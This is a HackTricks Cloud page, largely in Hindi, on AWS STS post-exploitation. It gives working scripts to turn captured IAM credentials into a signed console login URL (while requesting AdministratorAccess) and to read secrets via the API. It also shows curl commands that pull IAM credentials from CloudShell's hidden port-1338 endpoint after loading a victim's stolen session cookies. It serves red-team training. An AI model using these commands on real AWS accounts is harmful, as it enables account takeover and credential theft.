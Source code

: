 # AWS - STS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

For more information:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

#### New Method December 2024: Web Console लिंक के लिए आवश्यकता को बायपास करें, HTTPS POST अनुरोध द्वारा SecretsManager API से सीधे Secrets प्राप्त करें (कोई लॉगिन लिंक या वेब कंसोल नहीं)

कल प्रस्तुत किया गया, आगामी परीक्षा (ARTE: ex16x41) के लिए PR के रूप में, हालाँकि मैं देखता हूँ कि PR नहीं दिखता, शायद गलत प्रस्तुत किया गया, चलो फिर से कोशिश करते हैं:
इस विधि का उपयोग करके आप किसी भी URL को खोलने, किसी लॉगिन लिंक को फॉर्मेट करने या CLI / वेब कंसोल का उपयोग करने की आवश्यकता को पूरी तरह से बायपास करते हैं।
तो हमने यहाँ क्या किया?
मैंने यह स्क्रिप्ट लिखी जो सीधे AWS Secrets Manager API के साथ इंटरैक्ट करती है, यह बिल्कुल सरल और स्पष्ट है।
जब आप स्क्रिप्ट चलाते हैं, तो यह AWS Secrets Manager एंडपॉइंट पर HTTPS POST अनुरोध भेजता है
https://secretsmanager.<region>.amazonaws.com/
GetSecretValue अनुरोध POST अनुरोध के भाग के रूप में भेजा जाता है, जिसे SigV4 साइनिंग (boto3 द्वारा प्रबंधित) के साथ प्रमाणित किया जाता है।
Secrets Manager अनुरोध को प्रोसेस करता है:
AWS आपके उपयोगकर्ता या भूमिका से जुड़े IAM नीतियों के खिलाफ अनुरोध को मान्य करता है (जैसा कि हम जानते हैं कि हम केवल वेब कंसोल के रूप में गुप्त मान देख सकते हैं)
यदि अनुमति दी गई, तो Secrets Manager सेवा प्रतिक्रिया में अनुरोधित गुप्त मान लौटाती है।
**POC डेमो:**
गुप्त मान प्राप्त करने के लिए CLI AWS कमांड काम नहीं कर रहा है क्योंकि एक्सेस अस्वीकृत है ->
हालाँकि, छवि में आप सीधे गुप्त ID जानकर ध्वज को निकालने की विधि की सरलता देख सकते हैं (यह हम पहले चरण में करते हैं जब उपयोगकर्ता प्रोफ़ाइल के साथ लॉग इन करते हैं)
![image](https://github.com/user-attachments/assets/d05a1a96-04c0-4404-b4bd-dbfa93c6494b)
नोट: मुझे लगता है कि इस विधि का उपयोग परिदृश्य के आधार पर सार्वभौमिक रूप से किया जा सकता है यदि नीति अनुमति देती है (लेकिन CLI के माध्यम से अनुमति नहीं देने वाली नीति की सीमाओं को बायपास करें)
तो इसका उपयोग तब किया जा सकता है जब कोई नीति अनुमति देती है (एक वैकल्पिक परीक्षण विकल्प के रूप में)
साइड नोट: अन्य तकनीकों के बारे में जिज्ञासु हैं जिन्हें आप सेवा के API के साथ सीधे इंटरैक्शन की इसी विधि का उपयोग करके लागू कर सकते हैं और अब AWS CLI, किसी भी प्रिव एस्क या पोस्ट एक्सप्लोइटेशन प्रक्रिया के लिए जैसे यहाँ।
**कोड:**
'''
Python
import boto3

session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# Set a custom User-Agent
client.meta.events.register(
'before-call.secretsmanager.GetSecretValue',
lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'})
)

# Retrieve the secret value directly via secretsmanager API
response = client.get_secret_value(SecretId="flag_sts_lab_3")
print(response['SecretString'])
'''

### From IAM Creds to Console

यदि आप कुछ IAM क्रेडेंशियल प्राप्त करने में सफल रहे हैं तो आप **वेब कंसोल तक पहुँचने में रुचि रख सकते हैं** निम्नलिखित उपकरणों का उपयोग करके।\
नोट करें कि उपयोगकर्ता/भूमिका को **`sts:GetFederationToken`** अनुमति होनी चाहिए।

#### कस्टम स्क्रिप्ट

निम्नलिखित स्क्रिप्ट डिफ़ॉल्ट प्रोफ़ाइल और एक डिफ़ॉल्ट AWS स्थान (न तो गव और न ही cn) का उपयोग करेगी ताकि आपको एक साइन किया हुआ URL मिल सके जिसका उपयोग आप वेब कंसोल के अंदर लॉगिन करने के लिए कर सकते हैं:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

आप **एक वेब कंसोल लिंक उत्पन्न कर सकते हैं** [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
सुनिश्चित करें कि IAM उपयोगकर्ता के पास `sts:GetFederationToken` अनुमति है, या एक भूमिका प्रदान करें जिसे ग्रहण किया जा सके।
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) एक उपकरण है जो विकास वातावरण में AWS क्रेडेंशियल्स को सुरक्षित रूप से स्टोर और एक्सेस करने के लिए है।
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
आप **aws-vault** का उपयोग करके **ब्राउज़र कंसोल सत्र** प्राप्त कर सकते हैं
{% endhint %}

#### कंसोल से IAM क्रेडेंशियल्स तक

[**इस पोस्ट में मूल रूप से खोजा गया**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), यदि आप किसी वेब कंसोल तक पहुंच को समझौता करने में सफल होते हैं (शायद आपने कुकीज़ चुरा लीं और .aws फ़ोल्डर तक पहुंच नहीं पा रहे हैं), तो आप **CloudShell** के माध्यम से उस उपयोगकर्ता के लिए कुछ IAM टोकन क्रेडेंशियल्स प्राप्त कर सकते हैं।

CloudShell IAM क्रेडेंशियल्स को **पोर्ट 1338 पर एक अप्रलेखित एंडपॉइंट** के माध्यम से उजागर करता है। पीड़ित से सत्र कुकीज़ को अपने ब्राउज़र में लोड करने के बाद, आप CloudShell पर जा सकते हैं और IAM क्रेडेंशियल्स प्राप्त करने के लिए निम्नलिखित कमांड जारी कर सकते हैं।
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
